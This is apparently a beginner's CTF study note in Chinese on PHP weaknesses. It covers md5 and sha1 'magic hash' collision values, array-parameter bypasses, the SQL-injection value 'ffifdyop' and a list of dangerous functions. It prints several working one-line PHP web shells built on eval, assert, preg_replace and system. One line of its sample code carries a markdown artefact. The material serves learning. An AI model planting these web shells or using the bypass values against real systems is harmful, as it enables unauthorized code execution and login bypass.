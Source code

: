 ## 新生第一步，认识md5（five）
例题：
```php
<?php 
 highlight_file(__FILE__);
 include 'flag2.php';
 
if (isset($_GET['name']) && isset($_POST['password'])){
    $name = $_GET['name'];
    $password = [$_POST['password'];](url)
    if ($name != $password && md5($name) == md5($password)){
        echo $flag;
    }
    else {
        echo "wrong!";
    }
 
}
else {
    echo 'wrong!';
}
?> 
```
如例题所示，要求传入的是两个参数，post一个password，get一个name,要求两个东西的参数内容不一样，但是md5的值要一样，看似是不可能的，但是，md5其实早已被前人们给创烂了，md5的对撞已经不是很难完成，但是，这里用的并不是md5的对撞，而是php语言的妙妙小特性：
在md5化之后，如果数据以0e加纯数字结尾，会被直接解析为0，以此达到相等的结果,这里贴出一些值:
240610708:0e462097431906509019562988736854
QLTHNDT:0e405967825401955372549139051580
QNKCDZO:0e830400451993494058024219903391
PJNPDWY:0e291529052894702774557631701704
NWWKITQ:0e763082070976038347657360817689
NOOPCJF:0e818888003657176127862245791911
MMHUWUV:0e701732711630150438129209816536
MAUXXQC:0e478478466848439040434801845361

这里还有经过两次md5后值还相同的：
7r4lGXCH2Ksu2JNT3BYM
CbDLytmyGm2xQyaLNhWn
770hQgrBOjrcqftrlaZk

自己等于自己md5的：
0e215962017

同理，还有一种加密算法sha1也有这样的问题，这里一并贴出：
10932435112: 0e07766915004133176347055865026311692244
aaroZmOk: 0e66507019969427134894567494305185566735
aaK1STfY: 0e76658526655756207688271159624026011393
aaO8zKZF: 0e89257456677279068558073954252716165668
aa3OFF9m: 0e36977786278517984959260394024281014729
0e1290633704: 0e19985187802402577070739524195726831799

还有一种很罕见的
NAN绕过，在处理时发生错误

sql注入相关：
md5后值是万能密码：ffifdyop

还有md5值和sha1相等的参考极客大挑战2024的题

这是第一种打法
那么，主播主播，找特殊值还是太困难了，有没有更简单更强势的打法呢？


有的兄弟，有的，像这么强势的打法不止这一种（bushi


介绍大名鼎鼎的数组绕过：
管他什么name[]=1password[]=2直接秒了，但是以后大概是没有这么顺利的题了

## 二、一些敏感的函数：
eval()
system()
assert()
exec()
preg_replace()
shell_exec()
call_user_func()
passthru()
array_map()
popen()
这些函数都是常见的敏感函数，容易造成一些危险的漏洞
当然也是很重要的考点，其具体作用参考(https://zhuanlan.zhihu.com/p/622502997)

这些是一个笼统的记录，他们有不同的危险特色：
###1、代码执行系
这些函数能够执行一些php的代码，造成危险，同时是flag的获取点
#### eval()
大名鼎鼎，臭名昭著。一句话木马常客一号。
```php
<?php @eval($_POST['shell']);?>
```
#### assert()
同样是很敏感的东西，一句话木马常客二号
```php
<?php assert(@$_POST['shell']); ?>
```
#### preg_replace()
这个不太常用，当匹配模式/e时，该函数会将$replacement作为php代码执行
贴一份对应一句话木马
```php
preg_replace("/test/e",$_GET["shell"],"just test");
```
剩下几个使用范围较少，有的甚至已经被弃用了，这里就不做介绍了：
create_function()  (**在php7.2.0后被废弃**)
array_map()
call_user_func()
call_user_func_array()
array_filter()

### 2、命令执行系

#### system() 
漏洞头头，这里放出一句话木马的形式：
```php
<?php
    system($_GET['cmd']);
?>
```

